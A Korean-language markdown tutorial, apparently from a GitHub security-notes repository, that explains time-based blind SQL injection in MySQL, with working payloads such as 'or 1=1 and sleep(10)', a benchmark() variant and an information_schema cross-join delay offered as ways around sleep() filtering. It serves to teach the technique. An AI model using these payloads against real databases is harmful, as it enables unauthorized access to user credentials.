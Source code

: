 # Time based blind sqli

#### Time based blind sqli 란
 
> blind sqli 를 시도해도 참인이 거짓인지 반환을 받지 못할때 시간지연 함수로 참과 거짓의 값을 가져온다.

db 예)

```sql
database -> test
tables -> member
column -> id, pw
column data -> (admin , password) (guest, guest)
```


Query 예)

```sql
SELECT * FROM member WHERE id='' or 1=1 and sleep(1);--and pw='';

SELECT * FROM member WHERE id='' and pw='' or 1=1 and sleep(1);--'';

# 1=1 과 sleep(1) 가 참이므로 작동이 된다.
# 1=1 식 자체는 참이고 sleep(1) 는 실행만 잘 되면 참이기때문에
# 시간지연이 일어나면서 참이라는 값을 얻게 된다.
```

하지만 이처럼 sleep() 같은 시간지연 함수가 필터링 될때에는 다양한 방법중에
자주 쓰이는 방법은 3개의 함수, 쿼리가있다.

```sql
sleep()

benchmark()

SELECT count(*) FROM information_schema.columns A , information_schema.columns B , information_schema.columns C;
```

이 3개의 방법을을 응용하여 

time-based sql injection 쿼리를 만든다면

이렇게 완성된다.
```sql

SELECT * FROM member WHERE id='' or 1=1 and sleep(10);

SELECT * FROM member WHERE id='' or 1=1 and benchmark(73900000*10,md5(1));

SELECT * FROM member WHERE id='' or 1=1 and (SELECT count(*) FROM information_schema.columns A, information_schema.columns B);
```

### sleep(10);

__sleep() 함수는 사용할시에 시간지연을 시킨다.__

sleep(지연시키고싶은 시간(초 단위))

sleep() 함수는 정속적으로 지연되면 True 
그렇지 않다면 False 를 반환한다.

### benchmark();

__benchmark() 함수는 특정 연산 또는 구문을 반복시킨다.__

menchmark(반복할 개수, 연산)

이런식으로 인자를 넣어서 자신이 원하는 만큼만 반복을 시킨다음

반복하는 과정에서 시간지연이 생기게 된다.


### information_schema.columns

해당 쿼리는 수많은 컬럼들을 COUNT(*) 로 한번에 불러오다보니깐

불러오는 과정에서 시간지연이 생기게 되버린다.

![information image](./image/mysql-informaction.png)

밑의 1 row in set (42.55 sec) 가 나온것을 확인할수있다.

즉 count(*)로 합치면서 information_schema.columns A 와 B 를 SELECT 하면서

약 42 초가 걸리게 된다.



### 마무리

핵심은 저런 함수만 사용이 가능하는것이 아닌

Time based sql injection 인 만큼

시간 지연 가능한 쿼리만 잘 짜서 요청을 하면 된다.